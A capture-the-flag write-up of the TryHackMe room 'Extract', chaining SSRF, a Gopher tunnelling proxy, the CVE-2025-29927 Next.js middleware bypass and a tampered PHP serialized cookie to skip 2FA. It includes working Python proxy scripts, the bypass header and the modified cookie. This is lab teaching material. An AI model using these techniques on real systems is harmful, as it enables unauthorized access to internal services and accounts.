# TryHackMe --- Extract

> **Room:** Extract\
> **Platform:** TryHackMe\
> **Difficulty:** Hard\
> **Focus:** SSRF, Gopher, Internal Service Enumeration, Proxy
> Tunneling, Next.js Middleware Authentication Bypass, PHP Object
> Serialization / Cookie Manipulation

## Overview

**Extract** is a web-focused TryHackMe room built around chaining
multiple vulnerabilities rather than relying on a single exploit.

My attack path was:

``` text
Nmap
  │
  ├── 22/tcp — SSH
  └── 80/tcp — Apache / TryBookMe
                 │
                 ▼
          Document preview
                 │
                 ▼
        SSRF via preview.php
                 │
        ┌────────┴────────┐
        ▼                 ▼
   /management       127.0.0.1
        │                 │
        │            Internal port scan
        │                 │
        │                 ▼
        │              :10000
        │                 │
        │             /customapi
        │                 │
        │        Gopher + SSRF proxy
        │                 │
        │                 ▼
        │     x-middleware-subrequest
        │          authentication bypass
        │                 │
        │                 ▼
        │        Flag 1 + credentials
        │
        ▼
  Login through SSRF
        │
        ▼
   auth_token cookie
        │
        ▼
 PHP serialized object
 validated: false → true
        │
        ▼
       Flag 2
```

------------------------------------------------------------------------

# 1. Reconnaissance

I started with Nmap enumeration.

``` bash
nmap -sC -sV 10.48.171.154
```

The scan showed two open TCP ports:

``` text
22/tcp   open  ssh
80/tcp   open  http   Apache httpd 2.4.58
```

Since I did not have SSH credentials, I moved to the web application on
port 80.



------------------------------------------------------------------------

# 2. Exploring the Web Application

The website presented itself as an online library called **TryBookMe**.

There were two documents available from the main page.



Clicking a document caused the application to retrieve it from the
server and display it in the page.

I captured the request in Burp Suite:

``` http
GET /preview.php?url=https%3A%2F%2Fcvssm1%2Fpdf%2Florem.pdf HTTP/1.1
Host: 10.48.171.154
```

The important part here was:

``` text
/preview.php?url=
```



I then inspected the page source and found the JavaScript responsible
for loading the documents:

``` javascript
function openPdf(url) {
    const iframe = document.getElementById('pdfFrame');
    iframe.src = 'preview.php?url=' + encodeURIComponent(url);
    iframe.style.display = 'block';
}
```

This made `preview.php` immediately interesting because the server was
fetching a resource based on a URL supplied by the client.



------------------------------------------------------------------------

# 3. Discovering SSRF

Whenever I see a server-side URL fetching functionality like this, one
of the first vulnerabilities I test for is **Server-Side Request Forgery
(SSRF)**.

My first attempt was to access localhost, but the WAF blocked it.

I then tried:

``` text
http://127.0.0.1/
```

This worked.

I was able to retrieve internal resources through:

``` text
/preview.php?url=http://127.0.0.1/
```

I also used the SSRF functionality to retrieve the PDF resources from
the internal server.



This confirmed that the server was making the request on my behalf.

### A dead end

At this point I spent some time trying to turn the SSRF into a reverse
shell/code execution path.

That approach did not work as expected.

Instead of continuing to force an exploit that was not working, I
returned to the original `preview.php` request and started enumerating
what the internal web server could access.

------------------------------------------------------------------------

# 4. Enumerating Internal Paths

I used Burp Intruder with a directory wordlist against the SSRF
endpoint.

The target was effectively:

``` text
http://127.0.0.1/FUZZ
```

through:

``` text
/preview.php?url=
```

The enumeration revealed several interesting paths, including:

``` text
/server-status
/management
```



`/server-status` shows information about the Apache Server, so it did not lead anywhere
useful.

`/management`, however, presented a login page.



I tried some common usernames and passwords, but the application did not
provide useful feedback.

At this point, brute-forcing did not make sense because I had no valid
credentials and the application gave very little information.

So I moved back to the SSRF and started looking for other services
running locally.

------------------------------------------------------------------------

# 5. Internal Port Enumeration

The important realization was that SSRF was not limited to accessing
paths on port 80.

If the server could make requests to:

``` text
127.0.0.1
```

then I could also test different internal ports.

I enumerated localhost ports and discovered:

``` text
127.0.0.1:10000
```



Accessing port 10000 returned another application.



The application exposed a **Custom API** endpoint:

``` text
/customapi
```

However, I could not access this service directly from my machine
because it was only reachable from the target's internal
network/interface.

This is where the SSRF became much more useful.

------------------------------------------------------------------------

# 6. Building a Gopher-Based SSRF Proxy

The SSRF accepted URLs, and the server also supported the `gopher://`
scheme.

Gopher is useful here because it can be used to send raw TCP data
through the SSRF primitive.

Instead of manually encoding every HTTP request into a Gopher URL, I
created a small local proxy.

The idea was:

``` text
Browser / Burp
      │
      ▼
127.0.0.1:5000
      │
      ▼
Local proxy
      │
      ▼
http://TARGET/preview.php
      │
      ▼
gopher://127.0.0.1:10000
      │
      ▼
Target's internal service
```

### `proxy_10000.py`

``` python
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = '<TARGET_IP>'
HOST_TO_PROXY = '127.0.0.1'
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)

        double_encoded_data = urllib.parse.quote(
            urllib.parse.quote(data)
        )

        target_url = (
            f'http://{TARGET_HOST}/preview.php'
            f'?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_'
            f'{double_encoded_data}'
        )

        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()

    print(
        f'Listening on {LHOST}:{LPORT}, '
        f'proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} '
        f'via {TARGET_HOST}...'
    )

    while True:
        conn, addr = s.accept()

        client_thread = threading.Thread(
            target=handle_client,
            args=(conn, addr),
            daemon=True
        )

        client_thread.start()
```

This is based on the proxy script I used during the room. The important
parts are the **double URL encoding** and the construction of the Gopher
URL.



After starting the proxy:

``` bash
python3 proxy_10000.py
```

I could interact with the internal service through:

``` text
http://127.0.0.1:5000/
```

------------------------------------------------------------------------

# 7. Bypassing Next.js Middleware Authentication

The internal application was built using **Next.js**.

Direct access to `/customapi` was restricted.

I researched the framework and identified **CVE-2025-29927**, a Next.js
middleware authorization bypass.

The vulnerability can allow authorization checks implemented in
middleware to be bypassed when the application accepts the
attacker-controlled:

``` http
x-middleware-subrequest
```

header.

The exact request I used through my local proxy was:

``` http
GET /customapi HTTP/1.1
Host: 127.0.0.1:5000
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

### Important header

``` http
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```



This successfully bypassed the middleware protection and returned the
contents of `/customapi`.

The response contained:

-   The first flag
-   Credentials for the TryBookMe management portal

CVE-2025-29927 is a real Next.js authorization-bypass vulnerability
affecting vulnerable versions when authorization is performed in
middleware. NVD lists the affected version ranges and patched versions.

------------------------------------------------------------------------

# 8. Using the Credentials Against `/management`

The credentials obtained from `/customapi` were useful for the
`/management` login.

However, there was another restriction: the management application
expected access from the local/internal side.

So I reused the SSRF Gopher proxy, this time targeting the web service
on:

``` text
127.0.0.1:80
```

I created a second proxy based on the same idea.

### `proxy_80.py`

``` python
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = '<TARGET_IP>'
HOST_TO_PROXY = '127.0.0.1'
PORT_TO_PROXY = 80

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)

        double_encoded_data = urllib.parse.quote(
            urllib.parse.quote(data)
        )

        target_url = (
            f'http://{TARGET_HOST}/preview.php'
            f'?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_'
            f'{double_encoded_data}'
        )

        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()

    print(
        f'Listening on {LHOST}:{LPORT}, '
        f'proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} '
        f'via {TARGET_HOST}...'
    )

    while True:
        conn, addr = s.accept()

        client_thread = threading.Thread(
            target=handle_client,
            args=(conn, addr),
            daemon=True
        )

        client_thread.start()
```



I then sent the management login request through the proxy.

The application returned a `302 Found` response and set an `auth_token`
cookie before redirecting to:

``` text
/management/2fa.php
```



------------------------------------------------------------------------

# 9. Analyzing the `auth_token` Cookie

The cookie immediately caught my attention.

After URL decoding the value, it contained a PHP serialized object:

``` text
O:9:"AuthToken":1:{s:9:"validated";b:0;}
```

The important field was:

``` text
validated
```

and it was set to:

``` text
b:0;
```

which represents Boolean `false`.



This suggested that the application was storing authentication state
inside a client-controlled serialized object.

------------------------------------------------------------------------

# 10. Bypassing the 2FA Check

I modified:

``` text
b:0;
```

to:

``` text
b:1;
```

The resulting serialized object was:

``` text
O:9:"AuthToken":1:{s:9:"validated";b:1;}
```

I then sent a request to:

``` text
/management/2fa.php
```

while supplying the modified `auth_token` together with the matching
`PHPSESSID`.

The important part of the request was:

``` http
GET /management/2fa.php HTTP/1.1
Host: 127.0.0.1:5000
Cookie: PHPSESSID=<SESSION>; auth_token=<MODIFIED_TOKEN>
```



The response confirmed:

``` text
2FA Complete - TryBookMe
```

and returned the second flag.

------------------------------------------------------------------------

# 11. What I Learned

### SSRF is more than just localhost access

Initially, I thought of SSRF mainly as a way to access `localhost`.

This room showed me that SSRF can become much more powerful when it can
be combined with:

-   Internal port enumeration
-   Alternative URL schemes
-   Gopher
-   Raw HTTP request construction
-   Internal authentication bypasses

### Gopher can turn SSRF into a request tunnel

The `gopher://` scheme allowed me to construct HTTP requests that were
sent from the target machine to internal services.

The custom Python proxy made this much easier to work with.

### Read the application behavior carefully

The `preview.php` endpoint looked simple at first, but the fact that it
accepted a user-controlled URL was the key to the entire attack chain.

### Framework fingerprinting can reveal useful attack paths

The internal service was using Next.js.

Recognizing the framework and researching its known vulnerabilities led
me to CVE-2025-29927.

### Client-controlled authentication state is dangerous

The `auth_token` contained a PHP serialized object with:

``` text
validated = false
```

Changing it to:

``` text
validated = true
```

allowed the 2FA check to be bypassed.

------------------------------------------------------------------------

# 12. Tools Used

  Tool                 Purpose
  -------------------- ---------------------------------------------------------
  Nmap                 Port and service enumeration
  Burp Suite           Request interception, Intruder and request manipulation
  Browser              Web application interaction
  Python               Custom SSRF/Gopher proxy
  Gopher               Raw TCP/HTTP requests through SSRF
  Directory wordlist   Internal path enumeration

------------------------------------------------------------------------

## Disclaimer

This writeup documents exploitation performed against an authorized
TryHackMe lab environment for educational purposes.

Do not reproduce these techniques against systems you do not own or have
explicit permission to test.
